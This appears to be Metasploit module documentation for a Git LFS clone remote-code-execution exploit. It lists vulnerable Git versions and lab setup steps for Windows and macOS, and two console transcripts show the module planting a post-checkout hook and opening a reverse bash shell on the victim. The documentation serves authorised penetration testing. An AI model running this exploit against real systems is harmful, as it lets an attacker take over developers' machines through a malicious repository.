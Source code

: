 ## Vulnerable Application

Git clients that support delay-capable clean / smudge
filters and symbolic links on case-insensitive file systems are
vulnerable to remote code execution while cloning a repository.

Usage of clean / smudge filters through Git LFS and a
case-insensitive file system changes the checkout order
of repository files which enables the placement of a Git hook
in the `.git/hooks` directory. By default, this module writes
a `post-checkout` script so that the payload will automatically
be executed upon checkout of the repository.

Versions of Git below those in the following list are vulnerable:
              v2.17.6, v2.18.5,
              v2.19.6, v2.20.5,
              v2.21.4, v2.22.5,
              v2.23.4, v2.24.4,
              v2.25.5, v2.26.3,
              v2.27.1, v2.28.1,
              v2.29.3, v2.30.2

### Vulnerable Installation on Windows Setup

1. Download a vulnerable version of Git for Windows: [v2.30.1](https://github.com/git-for-windows/git/releases/download/v2.30.1.windows.1/Git-2.30.1-64-bit.exe)
2. On the `Select Components` section of the installer, make sure Git LFS is selected (should be by default)
3. Keep clicking `next` until reaching the `Configuring extra options` page, select `Enable symbolic links`, `next`, and then `Install`
4. Open Git Bash as Administrator and enter `export MSYS=winsymlinks:nativestrict`
5. You should now be able to run the exploit and get a session on Windows

### Vulnerable Installation on MacOS Setup

1. You can either download a vulnerable version from [here](https://git-scm.com/download/mac) or install via Xcode by typing `git` into the console
2. Install [Homebrew](https://brew.sh/)
3. Install Git LFS via Homebrew: `brew install git-lfs`
4. Setup Git LFS globally: `git lfs install`
5. You should now be able to run the exploit and get a session on MacOS

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/git_lfs_clone_command_exec`
4. Do: `run`
5. You should get a shell.

## Options

### GIT_URI

Sets the Git repository path. Leave empty for randomly-generated path.

### GIT_HOOK

Sets the Git hook script to be written. `post-checkout` is the default.

## Scenarios

### Git `v2.20.1` on MacOS 10.14.6

```
msf6 > use exploit/multi/http/git_lfs_clone_command_exec
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/git_lfs_clone_command_exec) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(multi/http/git_lfs_clone_command_exec) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(multi/http/git_lfs_clone_command_exec) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(multi/http/git_lfs_clone_command_exec) > [*] Using URL: http://192.168.37.1:8080/haCxGmXm0G
[*] Server started.
[*] Git repository to clone: http://192.168.37.1:8080/flowdesk.git
[*] Sending payload data...
[*] Sending LFS object...
[+] Deleted .gitattributes
[+] Deleted vnmzvmgyddk
[+] Deleted .git
[*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49433) at 2021-07-12 11:35:47 -0500

msf6 exploit(multi/http/git_lfs_clone_command_exec) > sessions -i -1
[*] Starting interaction with 1...

uname -a
Darwin spaces-Mac.local 18.7.0 Darwin Kernel Version 18.7.0: Tue Aug 20 16:57:14 PDT 2019; root:xnu-4903.271.2~2/RELEASE_X86_64 x86_64
whoami
space
```

### Git `v2.29.0` on Windows 10

```
msf6 > use exploit/multi/http/git_lfs_clone_command_exec
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/git_lfs_clone_command_exec) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(multi/http/git_lfs_clone_command_exec) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(multi/http/git_lfs_clone_command_exec) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(multi/http/git_lfs_clone_command_exec) > [*] Using URL: http://192.168.37.1:8080/dA49tJWzH5Ye
[*] Server started.
[*] Git repository to clone: http://192.168.37.1:8080/otcom.git
[*] Sending payload data...
[*] Sending LFS object...
[+] Deleted .gitattributes
[+] Deleted nllefutt
[+] Deleted .git
[*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.1:61621) at 2021-07-12 11:32:30 -0500

msf6 exploit(multi/http/git_lfs_clone_command_exec) > sessions -i -1
[*] Starting interaction with 1...

uname -a
MINGW64_NT-10.0-19043 DESKTOP-2U9S1AD 3.1.7-340.x86_64 2020-09-22 19:03 UTC x86_64 Msys
```
